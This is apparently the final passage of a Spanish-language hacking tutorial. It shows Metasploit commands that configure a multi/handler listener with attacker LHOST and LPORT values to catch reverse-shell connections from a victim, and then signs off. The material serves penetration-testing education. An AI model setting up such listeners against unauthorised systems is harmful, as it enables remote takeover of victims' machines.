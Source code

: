 Usando metasploit podríamos hacerlo de la siguiente manera:
```bash
msfconsole
use exploit/multi/handler
set LHOST (IP de la interfaz del atacante conectada a la red de la victima)
set LPORT (PUERTO en el que queremos recibir conexiones)
run
```

Esto sería todo, muchas gracias por leer, 
<br>
`Happy Hacking!`

<br><br>
_Si encuentras algún error o errata házmelo saber._
